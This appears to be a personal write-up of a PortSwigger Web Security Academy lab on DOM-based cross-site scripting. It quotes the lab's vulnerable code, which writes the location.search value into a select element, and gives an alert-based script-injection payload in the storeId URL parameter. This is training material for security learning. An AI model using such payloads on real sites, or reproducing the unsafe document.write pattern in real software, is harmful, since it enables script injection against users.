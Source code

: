 ```yaml
---
title: 'Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XSS"
---
```


# Lab: DOM XSS in `document.write` sink using source `location.search` inside a select element
<!-- more -->
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript `document.write` function, which writes data out to the page. The `document.write` function is called with data from `location.search` which you can control using the website URL. The data is enclosed within a select element. 
* Goal: To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the `alert` function. 

## Recon
1. Find the injection place
I used string search to find `location.search` in each sub-page source.
Here is the interesting code:
    :::spoiler Source Code
    ```javascript!
    ...
    <script>
        var stores = ["London","Paris","Milan"];
        var store = (new URLSearchParams(window.location.search)).get('storeId');
        document.write('<select name="storeId">');
        if(store) {
            document.write('<option selected>'+store+'</option>');
        }
        for(var i=0;i<stores.length;i++) {
            if(stores[i] === store) {
                continue;
            }
            document.write('<option>'+stores[i]+'</option>');
        }
        document.write('</select>');
    </script>
    ...
    ```
    :::
2. Try type something about `storeID` as URL GET parameter
Payload: `/product?productId=1&storeId=abc`
![](https://i.imgur.com/KKbTF8f.png)
You can see that this is a perfect injection place


## Exp
Payload: `/product?productId=1&storeId=<script>alert(123);</script>`
:::spoiler Success Screenshot
![](https://i.imgur.com/bjEoUzh.png)
:::

## Reference